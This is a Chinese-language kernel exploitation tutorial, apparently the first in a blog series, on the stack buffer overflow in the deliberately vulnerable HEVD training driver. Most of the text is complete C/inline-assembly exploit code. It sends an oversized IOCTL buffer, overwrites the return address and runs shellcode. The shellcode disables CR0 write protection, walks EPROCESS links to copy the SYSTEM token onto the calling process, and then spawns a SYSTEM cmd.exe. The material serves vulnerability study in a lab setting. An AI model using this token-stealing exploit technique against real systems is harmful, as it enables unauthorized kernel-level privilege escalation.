








# 内核漏洞学习\[1\]-HEVD-StackOverflow
万丈高楼从这篇文章开始。

# 1.内核漏洞的第一步从哪里开始入手？
       我们要想的第一个问题是，如果内核有漏洞，光是看到这个漏洞是毫无意义的。为什么呢？因为我们没有办法进行人为的控制，只有可以进行人为的控制，才能触发漏洞发生，让这个漏洞为我们所用。所以第一步我们应该考虑的是从哪里开始我们可以人为的控制。而这个人为控制的点一定是个输入点，只有输入一些东西，才能让内核去执行一些功能。那么哪里可以进行输入呢，答案很清晰，就是通信函数。也就是说，从这篇文章开始，我们学习的本系列的所有漏洞的通信点都是DeviceIoControl函数开始的。

PS：需要说明的是默认阅读文章的兄弟萌是会驱动常规开发知识和汇编中的栈结构的。

# 2.开始调试栈溢出漏洞
## 2.1啥叫做栈溢出漏洞？
就是栈上面的函数返回地址被覆盖了，返回到我们想运行的函数里面，具体的栈溢出实例就根据下面的例子看即可。

## 2.2驱动分析
### 2.2.1漏洞整体分析


首先，最开始的分析都是从入口函数开始的，而驱动的入口函数叫做DriverEntry，而通信在 DriverObject->MajorFunction\[14\] = IrpDeviceIoCtlHandler回调函数中，其中MajorFunction\[14\]中14为IRP\_MJ\_DEVICE\_CONTROL。



进入IrpDeviceIoCtlHandler函数会发现当通信号码为0x222003时，进入BufferOverflowStackIoctlHandler函数。



从上述图片可以看出，调用链BufferOverflowStackIoctlHandler-->TriggerBufferOverflowStack-->memcpy函数存在问题。在进行字符串拷贝的时候，由于使用了传进来的字符串和传进来的字符串长度，只要我们将传进来的字符串长度比sizeof(KernelBuffer)的长度长，就可以向下覆盖，然后一直覆盖到TriggerBufferOverflowStack函数执行完，返回上一个函数的函数返回地址。将这个地址修改为我们的目的函数地址，那么这个漏洞就完成了操作。

### 2.2.2相关细节
#### 细节1--通信
所有开始都是从通信开始的，所以先写通信代码。

根据符号链接知道驱动的通信对象



通信代码：

```cpp
#include "stdafx.h"
#include <Windows.h>

#define DEVICE_LINK_NAME    "\\\\.\\HackSysExtremeVulnerableDriver"

int _tmain(int argc, _TCHAR* argv[])
{
	HANDLE hDevice = CreateFile(
		DEVICE_LINK_NAME,
		GENERIC_READ | GENERIC_WRITE,
		FILE_SHARE_READ | FILE_SHARE_WRITE,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL);

	char buffer[50] ={0};
	char buffer2[50] ={0};
	DWORD len = 0;
	BOOL IsOk = DeviceIoControl(hDevice,0x222003,buffer,sizeof(buffer),buffer2,sizeof(buffer2),&len,NULL);
	if (IsOk == FALSE)
	{
		int LastError = GetLastError();
		printf("LastError=%d \n",LastError);
	}

	CloseHandle(hDevice);
	hDevice = NULL;
	system("pause");
	return 0;
}
```
#### 细节2--溢出点




从上图的ebp-0x81c和栈结构图可以得知应该填充的大小为：0x81C+4+4=0x824

所以我们重新修改代码，修改后的代码为：

```cpp
#include "stdafx.h"
#include <Windows.h>

#define DEVICE_LINK_NAME    "\\\\.\\HackSysExtremeVulnerableDriver"

int _tmain(int argc, _TCHAR* argv[])
{
	HANDLE hDevice = CreateFile(
		DEVICE_LINK_NAME,
		GENERIC_READ | GENERIC_WRITE,
		FILE_SHARE_READ | FILE_SHARE_WRITE,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL);
//这里是修改后的代码
	char buffer[0x824] ={0};
	memset(buffer,0x41,0x824);
	char buffer2[50] ={0};
	DWORD len = 0;
	BOOL IsOk = DeviceIoControl(hDevice,0x222003,buffer,sizeof(buffer),buffer2,sizeof(buffer2),&len,NULL);
	if (IsOk == FALSE)
	{
		int LastError = GetLastError();
		printf("LastError=%d \n",LastError);
	}

	CloseHandle(hDevice);
	hDevice = NULL;
	system("pause");
	return 0;
}

```
进行通信：



通过双击调试进行栈回溯(快捷键kv)，可以发现确实覆盖返回地址了。

现在要做的就是编写我们需要的功能函数，并将功能函数地址放在需要覆盖的地址上面，进行调试。

PS：需要说明的是功能函数写成裸函数，这样容易控制整个栈帧的开辟。

#### 细节3--裸函数
写裸函数的顺序，先写一个啥功能都没有的裸函数，先看看能不能正常的运行，然后再写功能函数，而功能函数编为提权函数即可。

##### 裸函数--1，空白函数
```cpp
#include "stdafx.h"
#include <Windows.h>

#define DEVICE_LINK_NAME    "\\\\.\\HackSysExtremeVulnerableDriver"

void __declspec(naked)shellcode()
{
	_asm
	{
            //保存以前的寄存器状态
		pushad;
		pushfd;

            //还原以前的寄存器状态
		popfd;
		popad;
            
            //eax里面存放返回值，确保为正确
		xor eax,eax;
            //这两步的操作是因为BufferOverflowStackIoctlHandle在函数结尾处使用的。
            //是为了确保栈平衡使用的。
            //当IrpDeviceIoCtlHandler函数进入BufferOverflowStackIoctlHandler后会先保存IrpDeviceIoCtlHandler函数的ebp，所以我们的shellcode函数等价于BufferOverflowStackIoctlHandler函数，当我们出shellcode函数的时候，我们也要将IrpDeviceIoCtlHandler函数原来的ebp还原回去。
		pop ebp;
            //此时使用retn函数返回IrpDeviceIoCtlHandler函数，但是这个函数入栈了2个参数，我们把这两个参数也要弹出去。
		retn 8;
	}
}

int _tmain(int argc, _TCHAR* argv[])
{
	HANDLE hDevice = CreateFile(
		DEVICE_LINK_NAME,
		GENERIC_READ | GENERIC_WRITE,
		FILE_SHARE_READ | FILE_SHARE_WRITE,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL);

	char buffer[0x824] ={0};
	memset(buffer,0x41,0x820);
        //a.取&buffer[0x820]的地址
        //b.*(DWORD*) (&buffer[0x820])把地址里面的数据换成shenllcode的地址
	*(DWORD*) (&buffer[0x820]) = (DWORD)shellcode;

	char buffer2[50] ={0};
	DWORD len = 0;
	BOOL IsOk = DeviceIoControl(hDevice,0x222003,buffer,sizeof(buffer),buffer2,sizeof(buffer2),&len,NULL);
	if (IsOk == FALSE)
	{
		int LastError = GetLastError();
		printf("LastError=%d \n",LastError);
	}

	CloseHandle(hDevice);
	hDevice = NULL;


	system("pause");
	return 0;
}

```
##### 裸函数--2，填充功能
在这里我们将此进程的Token修改为system进程的Token，然后创建的进程就拥有了system权限了。

一些前置知识：

a:开关页读写功能，此相关知识去看cr0寄存器的标志位

```cpp
//关闭页读写	
__asm
{
    cli
    mov eax, cr0
    and eax, ~0x10000
    mov cr0, eax
}

//开启页读写
__asm
{
    mov eax, cr0
    or eax, 0x10000
    mov cr0, eax
    sti
}
```
b:fs寄存器的作用

ring0下fs:\[0\]指向kpcr，所以fs:124是kthread

PS：windbg使用!pcr指令获取当天的kpcr结构体

kd> !pcr

KPCR for Processor 2 at 90115000:

结构体：

```cpp
struct _KPCR
{
    struct _KPRCB PrcbData;  //0x120
}; 
struct _KPRCB
{
    USHORT MinorVersion; //0x0
    USHORT MajorVersion; //0x2
    struct _KTHREAD* CurrentThread; //0x4
}; 
struct _KTHREAD
{
    struct _KPROCESS* Process;  //0x150
}
struct _EPROCESS
{
    struct _KPROCESS Pcb;   //0x0
    VOID* UniqueProcessId;  //0xb4
    struct _LIST_ENTRY ActiveProcessLinks;  //0xb8
     struct _EX_FAST_REF Token;  //0xf8
}
```
寻找路线：

KPCR-->KPRCB+0x4    等价于  fs:\[0x124\]  = CurrentThread

CurrentThread+0x150 = KProcess 也等价于 EProcess

EProcess + 0xb4 = UniqueProcessId 当前进程的PID   system进程 PID = 0x4

EProcess + 0xb8 = ActiveProcessLinks 也就是活动进程链表

EProcess + 0xf8 = Token 也就是活动进程链表

获取Token的代码最终的代码：

```cpp
//得到当前线程
mov eax,fs:[0x124];
//根据线程得到当前进程，并保存在esi中
mov esi,[eax+0x150];
//将当前进程先保存一下
mov eax,esi;
searchWin7:
//得到进程活动链表
mov eax,eax+0xb8;
//得到每个活动进程的链表头
sub eax,0xb8;
//得到进程的PID
mov ebx,[eax+0xb4]
//比较PID是否是system进程
cmp ebx,0x4
//不是就进行跳转
jne searchWin7:
//得到system进程的Token
mov eax,[eax+0xf8];
//将本进程的Token替换成System进程的Token
mov [esi+0xf8],eax;
```
ring3下fs:\[0\]指向teb

最后使用创建进程函数创建一个新的进程

```cpp
STARTUPINFO si;
PROCESS_INFORMATION pi;

ZeroMemory( &si, sizeof(si) );
si.cb = sizeof(si);
ZeroMemory( &pi, sizeof(pi) );
CreateProcess(
    TEXT("C:\\Windows\\System32\\cmd.exe"),//创建一个命令行
    NULL,NULL, NULL,FALSE,
    CREATE_NEW_CONSOLE,//创建一个新的窗口
    NULL,NULL,&si, &pi );
```
最终将代码合起来

```cpp
#include "stdafx.h"
#include <Windows.h>

#define DEVICE_LINK_NAME    "\\\\.\\HackSysExtremeVulnerableDriver"

void __declspec(naked)shellcode()
{
	_asm
	{
		//保存以前的寄存器状态
		pushad;
		pushfd;
               //开辟栈帧
		sub esp,0x40;
	}

	//关闭页读写	
	__asm
	{
		cli
		mov eax, cr0
		and eax, ~0x10000
		mov cr0, eax
	}

	_asm
	{
		//得到当前线程
		mov eax,fs:[0x124];
		//根据线程得到当前进程，并保存在esi中
		mov esi,[eax+0x150];
		//将当前进程先保存一下
		mov eax,esi;
searchWin7:
		//得到进程活动链表
		mov eax,[eax+0xb8];
		//得到每个活动进程的链表头
		sub eax,0xb8;
		//得到进程的PID
		mov ebx,[eax+0xb4];
		//比较PID是否是system进程
		cmp ebx,0x4;
		//不是就进行跳转
		jne searchWin7;
		//得到system进程的Token
		mov eax,[eax+0xf8];
		//将本进程的Token替换成System进程的Token
		mov [esi+0xf8],eax;
	}

	//开启页读写
	__asm
	{
		mov eax, cr0
		or eax, 0x10000
		mov cr0, eax
		sti
	}

	_asm
	{
               //恢复栈帧
		add esp,0x40;

		//还原以前的寄存器状态
		popfd;
		popad;

		//eax里面存放返回值，确保为正确
		xor eax,eax;
		//这两步的操作是因为BufferOverflowStackIoctlHandle在函数结尾处使用的。
		//是为了确保栈平衡使用的。
		//当IrpDeviceIoCtlHandler函数进入BufferOverflowStackIoctlHandler后会先保存IrpDeviceIoCtlHandler函数的ebp，
		//所以我们的shellcode函数等价于BufferOverflowStackIoctlHandler函数，
		//当我们出shellcode函数的时候，
		//我们也要将IrpDeviceIoCtlHandler函数原来的ebp还原回去。
		pop ebp;
		//此时使用retn函数返回IrpDeviceIoCtlHandler函数，
		//但是这个函数入栈了2个参数，
		//我们把这两个参数也要弹出去。
		retn 8;
	}
}

int _tmain(int argc, _TCHAR* argv[])
{
	HANDLE hDevice = CreateFile(
		DEVICE_LINK_NAME,
		GENERIC_READ | GENERIC_WRITE,
		FILE_SHARE_READ | FILE_SHARE_WRITE,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL);

	char buffer[0x824] ={0};
	memset(buffer,0x41,0x820);
	//a.取&buffer[0x820]的地址
	//b.*(DWORD*) (&buffer[0x820])把地址里面的数据换成shenllcode的地址
	*(DWORD*) (&buffer[0x820]) = (DWORD)shellcode;

	char buffer2[50] ={0};
	DWORD len = 0;
	BOOL IsOk = DeviceIoControl(hDevice,0x222003,buffer,sizeof(buffer),buffer2,sizeof(buffer2),&len,NULL);
	if (IsOk == FALSE)
	{
		int LastError = GetLastError();
		printf("LastError=%d \n",LastError);
	}

	CloseHandle(hDevice);
	hDevice = NULL;
	
	STARTUPINFO si;
	PROCESS_INFORMATION pi;

	ZeroMemory( &si, sizeof(si) );
	si.cb = sizeof(si);
	ZeroMemory( &pi, sizeof(pi) );
	CreateProcess(
		TEXT("C:\\Windows\\System32\\cmd.exe"),//创建一个命令行，需要注意的是命令行的所在的文件夹的位置
		NULL,NULL, NULL,FALSE,
		CREATE_NEW_CONSOLE,//创建一个新的窗口
		NULL,NULL,&si, &pi );

	system("pause");
	return 0;
}
```



